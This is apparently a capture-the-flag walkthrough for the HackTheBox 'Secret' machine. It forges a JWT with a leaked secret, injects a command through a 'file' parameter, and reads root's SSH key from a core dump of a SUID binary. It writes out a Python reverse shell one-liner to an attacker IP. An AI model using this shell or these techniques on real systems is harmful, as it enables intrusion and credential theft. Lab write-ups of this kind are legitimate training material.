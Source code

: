 # HackTheBox-Secret

## NMAP

```bash
PORT     STATE SERVICE REASON         VERSION       
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                  
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods:                                                           
|_  Supported Methods: GET HEAD POST OPTIONS                              
|_http-server-header: nginx/1.18.0 (Ubuntu)                               
|_http-title: DUMB Docs                                                   
3000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
| http-methods:                                                           
|_  Supported Methods: GET HEAD POST OPTIONS                              
|_http-title: DUMB Docs            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel         

```

## PORT 80/3000 (HTTP)
On both http ports we can see a similar page of `DUMB Docs`

<img src="https://i.imgur.com/qtXFLw7.png"/>

We can navigate to sections which tells us that it's an API based authentication system where it shows the procedure on how to register a user using `POST`requests

<img src="https://i.imgur.com/q9OgeI4.png"/>

Running `gobuster` we can see some files in `/api` directory

<img src="https://i.imgur.com/5Bgz8FF.png"/>

We can download the zip archive from here

<img src="https://i.imgur.com/WPKSBv8.png"/>

And this archive contains a git repository so we can check for commits using `git log`

<img src="https://i.imgur.com/z3U8Q7c.png"/>

This commit has a JWT secret here so to look into this commit we can use the command `git show 67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78`

<img src="https://i.imgur.com/UORbhcN.png"/>

Let's first try to register a user , now I tried using `burpsuite` and the issue was that when I was sending the POST request in order to register a user , it wasn't working 

<img src="https://i.imgur.com/cqi1OHk.png"/>

Instead I installed `Postman` which is used for testing api calls 

<img src="https://i.imgur.com/mxUBqtB.png"/>

With this I was able to make a POST request to register a user as this returned as the username which means that we were successful in creating a user. We can login by making a POST request with email and password which in return will give us a JWT token

<img src="https://i.imgur.com/zoshyqq.png"/>

From the docs it says if we make a GET request to `/api/priv` it will show us our privileges.

<img src="https://i.imgur.com/IAG9UPl.png"/>

We can become the admin user since we already have found the JWT secret to modify the token but we need to see what username we need to set in order to become admin ,

<img src="https://i.imgur.com/6RMHU4i.png"/>

In `local=web/routes/private.js` we can see that it's checking for username `theadmin` and if that exists in the token that we can become the admin user

So modifiy the token we have and change the username from `arz101` to `theadmin` also add the JWT secret to verify the token

<img src="https://i.imgur.com/UrOvswo.png"/>

<img src="https://i.imgur.com/GS85HrR.png"/>

## Foothold

We can see another endponit `/api/logs`

<img src="https://i.imgur.com/rNKE4wr.png"/>

Which is going to make a `GET` request by taking a parameter named `file` and it's going to execute `git` command 

<img src="https://i.imgur.com/QRB1xb7.png"/>

So let's try to give the parameter 

<img src="https://i.imgur.com/IjowOwM.png"/>

So let's to try to break the command by `;id` and it see if we get command exection

<img src="https://i.imgur.com/fvtUeDV.png"/>

Perfect , now let's get the reverse shell from here

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

<img src="https://i.imgur.com/WOrHGfo.png"/>

Stabilizing the shell with python3

<img src="https://i.imgur.com/hILiH06.png"/>

Let's check `sudo -l` if we can run something as the root user without any password

<img src="https://i.imgur.com/HwcvEME.png"/>

We can't so let's see if there's anything running locally

<img src="https://i.imgur.com/i57whfF.png"/>

Only port 27017 is interesting , on which mongodb is running, I checked for suid binaries if there were other than the normal ones and found `/opt/count` had a SUID bit on it 

<img src="https://i.imgur.com/4dYfESl.png"/>

So I ran this binary and what it doee is asks for a file name with the path and lists the total number of characters ,words and lines

<img src="https://i.imgur.com/ECAO0K1.png"/>

We can also the source code for this binary which is in `/opt/code.c`

<img src="https://i.imgur.com/gSqh1P3.png"/>

## Privilege Escalation

Now we can't overflow the binary , reason is that the array `path` is of 100 characters but the way it's storing a value is through `scanf(%99s)` which means that it's going to store 99 chracters plus a null byte which prevents the bufferoverflow

<img src="https://i.imgur.com/b10EDI7.png"/>

<img src="https://i.imgur.com/7x3BzIx.png"/>

But we see this `prctl(PR_SET_DUMPABLE, 1)` , which enables process to be dumped 

<img src="https://i.imgur.com/AHLnVnM.png"/>

In order to dump the process we need to crash the program and the way we can crash it is to forcefully kill the process id and do that we need to have 2 shells , first will run the binary till the point you give the path for the file and second will kill the process for that binary. I used `-6` which is SIGABRT as I tried with `9` (SIGKILL) it wasn't showing the crash report in /var/crash and what I think is that because -9 would stop the execution of the binary whereas -6 will abort execution of binary.

<img src="https://i.imgur.com/aTPJGk5.png"/>

We get the crash report file from `/var/crash`

<img src="https://i.imgur.com/JOWpdYc.png"/>

To read the `CoreDump` file we need to use `apport-unpack` 

<img src="https://i.imgur.com/9oBW0Yn.png"/>

<img src="https://i.imgur.com/rDfiLNn.png"/>

Then just directly read the `CoreDump` file to get root's ssh key

<img src="https://i.imgur.com/gm7z3qW.png"/>

<img src="https://i.imgur.com/W61j9cJ.png"/>

## References

- https://jwt.io/
- https://stackoverflow.com/questions/7732983/core-dump-file-is-not-generated
- https://askubuntu.com/questions/434431/how-can-i-read-a-crash-file-from-var-crash
- https://stackoverflow.com/questions/44670035/how-to-clone-99s-in-fscanffile-d-99s-id-name-2
